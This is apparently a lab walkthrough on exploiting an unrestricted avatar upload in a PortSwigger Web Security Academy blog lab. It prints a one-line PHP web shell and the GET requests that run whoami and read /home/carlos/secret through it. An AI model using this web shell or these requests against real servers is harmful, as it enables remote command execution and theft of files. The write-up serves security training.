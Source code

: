 **Solution**

This lab contains a blogging website that has some blog posts on it. There is a `/my-account` endpoint in it that redirects us to the `/login` endpoint if we are not authenticated. There we can authenticate ourselves using the given credentials. After successful authentication, they redirect us to the `/my-account` page and there we have some functionalities like Changing Email and Uploading an Avatar Image. The Upload functionality sends the `POST` request to `/my-account/avatar` with the parameter `avatar` that contains the binary data of the image and the `user` parameter that has our account username.

That image is shown on our `/my-account` page and their URL is like following

```
https://0a3700d604fa8ca780a29eb6002c0076.web-security-academy.net/files/avatars/img.png
```

They upload files on the `/file/avatar/` endpoint with the same file name as we have in our system. We can check if they allow files other than image files like PHP files. We create a local file name `exploit.php` that has the following content in it.

```php
<?php system($_GET["cmd"]);?>
```

And Upload it using the upload avatar image functionality and they accept it. As they are not an image file so they didn't show us any image on our `my-account` page but its URL is like the following.

```
https://0a3700d604fa8ca780a29eb6002c0076.web-security-academy.net/files/avatars/exploit.php
```

Because this is a shell code we can run system commands by sending requests with specific parameters mentioned in our code in that case it's `cmd` using a GET request. So we can make the following request to run the `whoami` command on the server.

```
https://0a3700d604fa8ca780a29eb6002c0076.web-security-academy.net/files/avatars/exploit.php?cmd=whoami
```

In its response, we see the output `carlos` which means they web server is running with a `carlos` user. To solve this we have to read the `/home/carlos/secret` file and submit its response to do that we can send the following request to the server.

```
https://0a3700d604fa8ca780a29eb6002c0076.web-security-academy.net/files/avatars/exploit.php?cmd=cat%20/home/carlos/secret
```

Submit the key to solve the lab.

## Flawed Validation of file uploads

Now that we have practiced the basic file upload vulnerability in the previous lab, it's important to note that real-life scenarios are usually more complex. Unlike the lab, where no validation was enforced to prevent us from uploading a web shell, in reality, we encounter additional defenses. Web Application Firewalls (WAFs) play a significant role by inspecting input and uploaded files for malicious content, and blocking requests that violate the rules. Furthermore, applications often implement their own validations to protect servers from these vulnerabilities.
